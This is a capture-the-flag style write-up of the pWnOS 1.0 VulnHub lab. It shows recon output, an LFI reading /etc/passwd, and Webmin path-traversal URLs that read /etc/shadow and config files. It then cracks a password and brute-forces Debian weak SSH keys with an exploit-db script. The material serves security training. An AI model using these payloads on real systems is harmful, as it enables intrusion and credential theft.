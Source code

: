 ```yaml
---
layout: post
title: "pWnOS: 1.0"
date: 2015-05-10 12:13:34 +0200
comments: true
categories: [vulnhub, pwnos]
---
```

Image: [pWnOS: 1.0](https://www.vulnhub.com/entry/pwnos-10,33/)

Nmap output:
{% codeblock %}
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endcodeblock %}

After a while of browsing the web page, we found trivial LFI vulnerability:
{% codeblock %}
http://193.168.0.25/index1.php?help=true&connect=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
{% endcodeblock %}

We can find a lot of information querying the samba service too:
{% codeblock %}
root@kali:~/vulnhub/pwnos# nmblookup -A 192.168.0.25
Looking up status of 192.168.0.25
        UBUNTUVM        <00> -         H <ACTIVE>
        UBUNTUVM        <03> -         H <ACTIVE>
        UBUNTUVM        <20> -         H <ACTIVE>
        ..__MSBROWSE__. <01> - <GROUP> H <ACTIVE>
        MSHOME          <1d> -         H <ACTIVE>
        MSHOME          <1e> - <GROUP> H <ACTIVE>
        MSHOME          <00> - <GROUP> H <ACTIVE>

        MAC Address = 00-00-00-00-00-00

root@kali:~/vulnhub/pwnos# smbclient -L\\UBUNTUVM -I 192.168.0.25 -N
Anonymous login successful
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]

        Sharename       Type      Comment
        ---------       ----      -------
        home            Disk      Home Directory for vmware User
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (ubuntuvm)
Anonymous login successful
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]

        Server               Comment
        ---------            -------
        UBUNTUVM             ubuntuvm

        Workgroup            Master
        ---------            -------
        MSHOME               UBUNTUVM
{% endcodeblock %}

There are a few enumeration modules in metasploit:
{% codeblock %}
msf exploit(usermap_script) > use auxiliary/scanner/smb/pipe_auditor
msf auxiliary(pipe_auditor) > setg RHOSTS 192.168.0.25
RHOSTS => 192.168.0.25
msf auxiliary(pipe_auditor) > exploit

[*] 192.168.0.25 - Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \lsass, \ntsvcs, \srvsvc, \wkssvc
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf auxiliary(smb_enumshares) > use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > exploit

[*] 192.168.0.25 UBUNTUVM [ games, nobody, proxy, syslog, www-data, root, news, bin, mail, dhcp, daemon, sshd, man, lp, mysql, gnats, backup, sys, klog, vmware, list, irc, sync, uucp ] ( LockoutTries=0 PasswordMin=5 )

msf auxiliary(smb_login) > use auxiliary/scanner/smb/smb_lookupsid
msf auxiliary(smb_lookupsid) > exploit

[*] 192.168.0.25 PIPE(LSARPC) LOCAL(UBUNTUVM - 5-21-2952145021-507220021-499326276) DOMAIN(MSHOME - )
[*] 192.168.0.25 USER=nobody RID=501
[*] 192.168.0.25 GROUP=None RID=513
[*] 192.168.0.25 USER=root RID=1000
[*] 192.168.0.25 USER=daemon RID=1002
[*] 192.168.0.25 USER=bin RID=1004
[*] 192.168.0.25 USER=sys RID=1006
[*] 192.168.0.25 USER=sync RID=1008
[*] 192.168.0.25 USER=games RID=1010
[*] 192.168.0.25 USER=man RID=1012
[*] 192.168.0.25 USER=lp RID=1014
[*] 192.168.0.25 USER=mail RID=1016
[*] 192.168.0.25 USER=news RID=1018
[*] 192.168.0.25 USER=uucp RID=1020
[*] 192.168.0.25 USER=proxy RID=1026
[*] 192.168.0.25 USER=www-data RID=1066
[*] 192.168.0.25 USER=backup RID=1068
[*] 192.168.0.25 USER=list RID=1076
[*] 192.168.0.25 USER=irc RID=1078
[*] 192.168.0.25 USER=gnats RID=1082
[*] 192.168.0.25 USER=dhcp RID=1200
[*] 192.168.0.25 USER=syslog RID=1202
[*] 192.168.0.25 USER=klog RID=1204
[*] 192.168.0.25 USER=mysql RID=1206
[*] 192.168.0.25 USER=sshd RID=1208
[*] 192.168.0.25 USER=vmware RID=3000
[*] 192.168.0.25 UBUNTUVM [nobody, root, daemon, bin, sys, sync, games, man, lp, mail, news, uucp, proxy, www-data, backup, list, irc, gnats, dhcp, syslog, klog, mysql, sshd, vmware ]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endcodeblock %}

The webmin is vulnerable and the exploit in metasploit:
{% codeblock %}
       Name: Webmin File Disclosure
     Module: auxiliary/admin/webmin/file_disclosure
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2006-06-30
{% endcodeblock %}

Basically the exploitation could be performed on command line to disclose arbitrary file, for example:
{% codeblock %}
http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.conf

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.users

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.pem
{% endcodeblock %}

Using john on /etc/shadow, we obtain credentials of user vmware for successful login to the system:
{% codeblock %}
h4ckm3           (vmware)
{% endcodeblock %}

The box could be rooted using standard vmsplice exploit.

However, there is another way to get user account. The script
[dowkd.pl](https://wiki.debian.org/SSLkeys#Testing_keys_using_dowkd.pl) ensures
us that the OpenSSL is vulnerable
([CVE-2008-0166](https://security-tracker.debian.org/tracker/CVE-2008-0166)). 

We download and unpack already generated RSA keys from offensive-security repository:
{% codeblock %}
$ wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/debian_ssh_rsa_2048_x86.tar.bz2
{% endcodeblock %}

Because usage of weak private keys could be blacklisted on our server, we use
the following
[instructions](https://unix.stackexchange.com/questions/109908/public-key-f36e8704ea2db360ff42ad26671794d5-blacklisted-see-ssh)
to enable them. 

Basically adding this directive to our ssh_config file should be sufficient:
{% codeblock %}
UseBlacklistedKeys yes 
{% endcodeblock %} 

In exploit-db, we use python script to try every possible private key:
{% codeblock %}
$ python platforms/linux/remote/5720.py /tmp/rsa/2048 192.168.0.25 obama

Key Found in file: dcbe2a56e8cdea6d17495f6648329ee2-4679
Execute: ssh -lobama -p22 -i /tmp/rsa/2048/dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.0.25
{% endcodeblock %}

